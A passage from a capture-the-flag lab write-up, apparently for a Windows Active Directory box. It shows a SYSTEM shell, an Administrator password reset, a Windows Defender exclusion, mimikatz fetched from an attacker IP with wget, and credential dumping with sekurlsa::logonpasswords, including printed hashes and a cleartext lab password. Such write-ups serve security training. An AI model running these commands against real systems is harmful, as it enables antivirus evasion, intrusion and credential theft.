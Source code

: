 ```
PS C:\web\htdocs\images> whoami
nt authority\system
PS C:\web\htdocs\images> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
sshd                     WDAGUtilityAccount       
The command completed with one or more errors.

PS C:\web\htdocs\images> net user Administrator password
The command completed successfully.
```

Then I simply went to the desktop to grab the root flag for this server.

### Elevating Domain Access
Now that I have shell access to the machine, according to the box, I need to dump credentials using mimikatz. However since I didn't use Covenant I need to upload and execute it manually.
So I started by upgrading my shell to PowerShell: `powershell -exec bypass`.

Then, to avoid obfuscating mimikatz, I decided to just whitelist a folder from WD, because I have admin access I can do that! I simply executed: `Add-MpPreference -ExclusionPath "C:\Users\Administrator\Downloads\"` and now WD isn't a problem anymore.

The next step is to download mimikatz and run it:
```
wget http://10.50.107.226:8080/mimikatz.exe -OutFile meme.exe`
.\meme.exe
```
And voila, I got mimikatz up and running.

I tested mimikatz is working with: `privilege::debug` and got a `Privilege '20' OK` which means I can use mimikatz without any problems.

Then I tried elevating my access to system from admin via: `token::elevate` and it worked!

And finally, the sauce: `sekurlsa::logonpasswords` to dump the credentials of all the accounts that are already authenticated to the endpoint. With that I managed to dump the credentials for `watamet`.
```
Authentication Id : 0 ; 298318 (00000000:00048d4e)
Session           : Interactive from 1
User Name         : watamet
Domain            : HOLOLIVE
Logon Server      : DC-SRV01
Logon Time        : 4/10/2022 2:33:55 PM
SID               : S-1-5-21-471847105-3603022926-1728018720-1132 
        msv :
         [00000003] Primary
         * Username : watamet
         * Domain   : HOLOLIVE
         * NTLM     : d8d41e6cf762a8c77776a1843d4141c9
         * SHA1     : 7701207008976fdd6c6be9991574e2480853312d
         * DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0
        tspkg :
        wdigest :
         * Username : watamet
         * Domain   : HOLOLIVE
         * Password : (null)
        kerberos :
         * Username : watamet
         * Domain   : HOLO.LIVE
         * Password : Nothingtoworry!
        ssp :
```